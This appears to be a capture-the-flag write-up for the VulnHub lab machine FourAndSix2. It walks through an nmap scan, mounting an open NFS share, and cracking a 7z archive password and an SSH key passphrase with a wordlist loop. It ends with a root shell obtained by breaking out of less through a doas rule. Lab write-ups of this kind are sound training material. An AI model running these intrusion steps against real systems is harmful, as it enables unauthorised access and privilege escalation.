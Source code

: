 FourAndSix2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Mounting NFS share
[+] 7z password cracking online
[+] Cracking id_rsa password
[+] Privilege Escalation abusing SUID file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.106
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          782/udp  mountd
|_  100005  1,3          851/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Mount Present

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ showmount -e 192.168.56.106
Export list for 192.168.56.106:
/home/user/storage (everyone)
setrus@host:~$ sudo mount -t nfs 192.168.56.106:/home/user/storage /mnt/462/
setrus@host:~$ ls /mnt/462
backup.7z
setrus@host:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Tha zip is password protected. John was not able to crack the password but we were able to get the zip dearchived with password :  chocolate
https://www.lostmypass.com/file-types/7z/

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/fourandsix2/642.png)

We get the account to login to the server 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is a password for id_rsa :  123456789

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cat /usr/share/wordlists/metasploit/adobe_top100_pass.txt | while read pass; do if ssh-keygen –c –C "user@forandsix" –P $pass –f id_rsa &>/dev/null; then echo $pass; break; fi; done

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Account user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fourandsix2$ find / -perm -u=s -type f 2>/dev/null 
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown


ourandsix2$ cat /etc/doas.conf                                                
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root


fourandsix2$ doas /usr/bin/less /var/log/authlog
/var/log/authlog already locked, session is read-only
Press Enter to continue: 

v (to get into vi)

:!sh 

Press any key to continue [: to enter more ex commands]: 
fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
fourandsix2# 



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





